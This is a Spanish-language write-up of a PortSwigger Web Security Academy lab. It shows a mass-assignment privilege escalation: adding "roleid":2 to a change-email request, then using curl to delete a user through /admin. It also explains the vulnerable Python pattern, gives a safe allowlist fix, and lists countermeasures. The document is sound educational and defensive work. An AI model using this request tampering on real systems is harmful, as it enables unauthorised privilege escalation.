

# Writeup: User role can be modified in user profile (PortSwigger)

- **Lab**: User role can be modified in user profile
- **URL**: https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile
- **Categoría**: Access control / Privilege escalation por mass assignment / Sobre-aceptación de campos en input
- **Dificultad**: Apprentice
- **Credenciales**: `wiener:peter`

---

## 1. Objetivo

Borrar `carlos` desde `/admin`. El panel exige `roleid=2` (admin). Tu cuenta arranca con `roleid=1`. La feature de update email procesa **todo el JSON del body** sin filtrar campos: agregando `"roleid": 2` al body, escalas tu propia cuenta a admin.

### Insight central

**Mass assignment**: el backend deserializa el body JSON y aplica todos los campos al modelo del user, sin allowlist. Si el modelo tiene campos sensibles (`roleid`, `is_admin`, `verified_email`, `subscription_tier`), cualquier cliente que conozca el nombre del campo puede setearlos. Patrón canónico de frameworks ORM modernos (Rails antes de strong_parameters, Django con `**request.data`, Spring sin `@JsonView`).

La response del legítimo update email **leakea el campo**: devuelve `{"username":"wiener","email":"...","apikey":"...","roleid":1}`. El cliente ahora sabe el nombre exacto del campo a manipular. La fix correcta es nunca devolver campos sensibles al cliente y nunca aceptarlos en el body de endpoints no-admin.

---

## 2. Reconocimiento

### 2.1 Update email legítimo

```http
POST /my-account/change-email HTTP/2
Cookie: session=An0c...
Content-Type: text/plain;charset=UTF-8

{"email":"wiener1@normal-user.net"}
```

Response:
```http
HTTP/2 302 Found
Content-Type: application/json

{
  "username": "wiener",
  "email": "wiener1@normal-user.net",
  "apikey": "Y8D3sxUDYIUyCTN4jwm3KO11IMlji3IO",
  "roleid": 1
}
```

Tres datos críticos que la response regaló:

- Existe un campo **`roleid`**. Nombre exacto, sabido.
- Valor actual: `1`. Diferente del admin que es `2` (de la descripción del lab).
- También leakea `apikey` (token sensible), `username` (no tan sensible). En auditoría real, ambos son hallazgos por separado.

El antipatrón aquí es doble: el server **acepta más campos de los que debería** (mass assignment) y **devuelve más campos de los que debería** (information disclosure). Cualquiera de los dos solo facilita el descubrimiento; juntos lo trivializan.

### 2.2 Confirmar el vector

```http
POST /my-account/change-email HTTP/2
Content-Type: text/plain;charset=UTF-8

{"email":"wiener1@normal-user.net","roleid":2}
```

Response:
```json
{
  "username": "wiener",
  "email": "wiener1@normal-user.net",
  "apikey": "Y8D3sxUDYIUyCTN4jwm3KO11IMlji3IO",
  "roleid": 2
}
```

`roleid: 2`. Escalada hecha desde la sesión actual.

---

## 3. Resolución

```bash
curl 'https://<lab>/admin/delete?username=carlos' \
    -H 'Cookie: session=An0cCxYtcbfL8rwg5eLUdbZkgTf4dVMf'
```

302 a `/admin`. Banner pasa a `is-solved`.

---

## 4. Por qué funciona

### 4.1 Mass assignment

El backend hace algo equivalente a:

```python
# Antipatron
@app.route('/my-account/change-email', methods=['POST'])
@login_required
def change_email():
    data = request.json
    user = User.find(session['user_id'])
    for key, value in data.items():
        setattr(user, key, value)  # aplica todo lo que venga
    db.commit()
    return jsonify(user.to_dict())
```

Cualquier campo del modelo que el atacante conozca o adivine se puede setear. Funciona contra `roleid`, `is_admin`, `verified`, `email_confirmed`, `subscription`, `password_hash` (en peor caso, el atacante setea su propio hash).

### 4.2 Implementación correcta - allowlist explícita

```python
# Implementacion correcta
ALLOWED_FIELDS = {'email'}

@app.route('/my-account/change-email', methods=['POST'])
@login_required
def change_email_safe():
    data = request.json
    filtered = {k: v for k, v in data.items() if k in ALLOWED_FIELDS}
    user = User.find(session['user_id'])
    for key, value in filtered.items():
        setattr(user, key, value)
    db.commit()
    return jsonify({"email": user.email})  # response minima
```

Tres capas de defensa:

1. **Allowlist en input**: solo `email` se acepta. Cualquier otro campo se descarta silenciosamente.
2. **Response minimal**: solo el campo modificado se devuelve. No se leakea `roleid`, `apikey`, etc.
3. **Endpoint específico**: cambio de email, cambio de password, cambio de role son endpoints separados, cada uno con su propio set de allowed fields y su propio authz check (admin para `roleid`, current password para `password`, etc.).

Frameworks modernos lo expresan declarativamente:

- **Rails**: `params.require(:user).permit(:email)` (strong_parameters).
- **Django REST**: `class EmailSerializer(ModelSerializer): class Meta: fields = ['email']`.
- **Spring**: `@JsonView(EmailUpdateView.class)` o DTOs explícitos.
- **NestJS**: DTOs con `class-validator` y `@Expose`.

Default sin allowlist es el antipatrón. Default con allowlist es la fix.

### 4.3 Patrón general

Mass assignment aparece en:

- **Signup endpoints** que aceptan `is_admin=true` en el JSON de creación de usuario.
- **Profile update** (este lab) con campos sensibles en el modelo.
- **Account settings** que aceptan flags ocultos (`is_verified`, `account_balance`).
- **Subscription/billing** donde el cliente setea `subscription_tier=premium`.
- **Order creation** donde el cliente setea `discount_percent=100`.

La regla universal: **el server siempre define qué campos puede modificar el cliente, no al revés**. Allowlist explícita por endpoint, no blacklist genérica.

### 4.4 Comparación con labs hermanos

| Lab | Vector | Cómo escalar |
|---|---|---|
| Unprotected admin | Path leakea, sin auth | Encontrar path |
| User role controlled by parameter | Cookie `Admin=true|false` controlable | Tampering cookie |
| **User role can be modified in profile (este)** | Endpoint update email acepta `roleid` por mass assignment | Inyectar campo en body |

Los tres bypassean access control pero por mecánicas distintas: ausencia de auth (lab 1), authz basado en input cliente (lab 2), authz correcto pero bypass por endpoint adyacente que modifica el dato de authz (lab 3).

---

## 5. Resumen



Tres ideas:

1. **Mass assignment es default sin allowlist**: cualquier framework que setea atributos directo del request body es vulnerable hasta que el dev ponga el filtro explícito.
2. **Responses verbosas son discovery gratis para el atacante**: devolver el modelo completo del user en cada update revela los campos manipulables. Response minima por endpoint.
3. **Authz check en `/admin` no alcanza**: el dato que `/admin` consulta (`roleid`) puede ser modificable desde otro endpoint (`/change-email`). Defensa en profundidad requiere que cada endpoint que modifica datos sensibles tenga su propio check, y que datos de authz (roleid, is_admin) sean modificables solo desde endpoints admin específicos.

---

## 6. Contramedidas

1. **Allowlist explícita por endpoint** (strong_parameters, DTOs, serializers): solo los campos que ese endpoint debe modificar.
2. **Response minimal**: devolver solo lo necesario. No exponer modelo completo del user.
3. **Endpoints separados por dominio de authz**: `/change-email` (user), `/change-password` (user con re-auth), `/change-role` (admin only).
4. **Audit logging** de cambios sensibles, especialmente cambios de role.
5. **Tests automatizados de mass assignment**: para cada endpoint, intentar setear campos sensibles del modelo y verificar 400/422 o ignore silencioso.
6. **Modelo separado para input/output**: ORM models no se exponen directo a la API. Capa DTO mediates.

---

## 7. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: User role can be modified in user profile*. https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile
- PortSwigger Web Security Academy. (s.f.). *Access control vulnerabilities and privilege escalation*. https://portswigger.net/web-security/access-control
- OWASP Foundation. (s.f.). *Mass Assignment Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html
- OWASP Foundation. (2021). *A01:2021 - Broken Access Control*. https://owasp.org/Top10/A01_2021-Broken_Access_Control/
- OWASP Foundation. (s.f.). *API3:2023 Broken Object Property Level Authorization*. https://owasp.org/API-Security/editions/2023/en/0xa3-broken-object-property-level-authorization/
- MITRE Corporation. (2024). *CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes*. https://cwe.mitre.org/data/definitions/915.html
- MITRE Corporation. (2024). *CWE-639: Authorization Bypass Through User-Controlled Key*. https://cwe.mitre.org/data/definitions/639.html
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 8 (Attacking Access Controls).
- Writeups hermanos del cluster Access Control:
  - [`learning/portswigger/unprotected-admin-functionality/writeup.md`](../unprotected-admin-functionality/writeup.md)
  - [`learning/portswigger/unprotected-admin-functionality-with-unpredictable-url/writeup.md`](../unprotected-admin-functionality-with-unpredictable-url/writeup.md)
  - [`learning/portswigger/user-role-controlled-by-request-parameter/writeup.md`](../user-role-controlled-by-request-parameter/writeup.md)
- Inventario interno: [`inventario/04-explotacion/web/explotacion-broken-access-control.md`](../../../inventario/04-explotacion/web/explotacion-broken-access-control.md)
